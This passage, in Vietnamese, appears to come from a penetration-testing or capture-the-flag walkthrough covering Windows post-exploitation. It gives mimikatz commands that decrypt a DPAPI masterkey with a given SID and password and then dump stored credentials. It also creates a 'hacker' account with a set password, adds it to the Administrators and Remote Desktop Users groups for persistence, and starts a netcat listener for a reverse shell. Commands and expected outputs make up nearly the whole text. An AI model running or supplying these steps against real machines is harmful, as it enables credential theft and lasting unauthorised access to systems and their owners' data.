 Output mong đợi: Thông tin xác thực bị xóa, ví dụ: `Credential deleted for WORKGROUP\Administrator`

Trích xuất khóa chính DPAPI để giải mã thông tin xác thực:

```
mimikatz # dpapi::masterkey /in:3296853f-c42b-4ee0-a317-be49c5447823 /sid:S-1-5-21-1412805706-2265949842-2593025800-1001 /password:titan1506
```

Output mong đợi: Khóa chính được giải mã, ví dụ: `Masterkey: <key>`

Giải mã thông tin xác thực DPAPI từ tệp credential:

```
dpapi::cred /in:7505A1CE4F953BF9CA27E7CD22747C7E
```

Output mong đợi: Thông tin xác thực, ví dụ: `Username: admin, Password: secret123`

#### Kích hoạt khai thác

Thêm tài khoản quản trị để duy trì truy cập:

```
net user hacker hacker123 /add
```

Output mong đợi: Tài khoản được tạo, ví dụ: `The command completed successfully`

Thêm tài khoản vào nhóm Administrators:

```
net localgroup Administrators hacker /add
```

Output mong đợi: Tài khoản được thêm, ví dụ: `The command completed successfully`

Thêm tài khoản vào nhóm Remote Desktop Users:

```
net localgroup "Remote Desktop Users" hacker /add
```

Output mong đợi: Tài khoản được thêm, ví dụ: `The command completed successfully`

Chờ kết nối reverse shell:

```
nc -lvnp <port>
```

Output mong đợi: Kết nối từ mục tiêu, ví dụ: `Connection from 192.168.1.101:45678`

### Kiểm tra kết quả

Xác nhận quyền quản trị hoặc SYSTEM sau khai thác:

```
whoami
```

Output mong đợi: `nt authority\system` hoặc `domain\administrator`\
Xác nhận: Thử lệnh yêu cầu quyền cao, ví dụ: `net user hacker` để kiểm tra tài khoản đã thêm.

